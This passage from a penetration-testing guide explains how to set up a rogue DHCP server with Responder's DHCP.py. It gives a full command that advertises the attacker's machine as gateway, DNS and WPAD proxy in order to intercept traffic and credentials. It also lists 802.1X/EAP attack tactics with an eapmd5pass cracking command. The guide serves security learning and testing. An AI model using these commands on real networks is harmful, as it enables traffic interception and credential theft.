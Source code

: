 You could use the mentioned DoS attacks to force clients to obtain new leases within the environment, and exhaust legitimate servers so that they become unresponsive. So when the legitimate try to reconnect, **you can server malicious values mentioned in the next attack**.

#### Set malicious values

A rogue DHCP server can be set up using the DHCP script located at `/usr/share/responder/DHCP.py`. This is useful for network attacks, like capturing HTTP traffic and credentials, by redirecting traffic to a malicious server. However, setting a rogue gateway is less effective since it only allows capturing outbound traffic from the client, missing the responses from the real gateway. Instead, setting up a rogue DNS or WPAD server is recommended for a more effective attack.

Below are the command options for configuring the rogue DHCP server:

* **Our IP Address (Gateway Advertisement)**: Use `-i 10.0.0.100` to advertise your machine's IP as the gateway.
* **Local DNS Domain Name**: Optionally, use `-d example.org` to set a local DNS domain name.
* **Original Router/Gateway IP**: Use `-r 10.0.0.1` to specify the IP address of the legitimate router or gateway.
* **Primary DNS Server IP**: Use `-p 10.0.0.100` to set the IP address of the rogue DNS server you control.
* **Secondary DNS Server IP**: Optionally, use `-s 10.0.0.1` to set a secondary DNS server IP.
* **Netmask of Local Network**: Use `-n 255.255.255.0` to define the netmask for the local network.
* **Interface for DHCP Traffic**: Use `-I eth1` to listen for DHCP traffic on a specific network interface.
* **WPAD Configuration Address**: Use `-w “http://10.0.0.100/wpad.dat”` to set the address for WPAD configuration, assisting in web traffic interception.
* **Spoof Default Gateway IP**: Include `-S` to spoof the default gateway IP address.
* **Respond to All DHCP Requests**: Include `-R` to make the server respond to all DHCP requests, but be aware that this is noisy and can be detected.

By correctly using these options, a rogue DHCP server can be established to intercept network traffic effectively.

```python
# Example to start a rogue DHCP server with specified options
!python /usr/share/responder/DHCP.py -i 10.0.0.100 -d example.org -r 10.0.0.1 -p 10.0.0.100 -s 10.0.0.1 -n 255.255.255.0 -I eth1 -w "http://10.0.0.100/wpad.dat" -S -R
```

### **EAP Attacks**

Here are some of the attack tactics that can be used against 802.1X implementations:

* Active brute-force password grinding via EAP
* Attacking the RADIUS server with malformed EAP content _\*\*_(exploits)
* EAP message capture and offline password cracking (EAP-MD5 and PEAP)
* Forcing EAP-MD5 authentication to bypass TLS certificate validation
* Injecting malicious network traffic upon authenticating using a hub or similar

If the attacker if between the victim and the authentication server, he could try to degrade (if necessary) the authentication protocol to EAP-MD5 and capture the authentication attempt. Then, he could brute-force this using:

```
eapmd5pass –r pcap.dump –w /usr/share/wordlist/sqlmap.txt
```
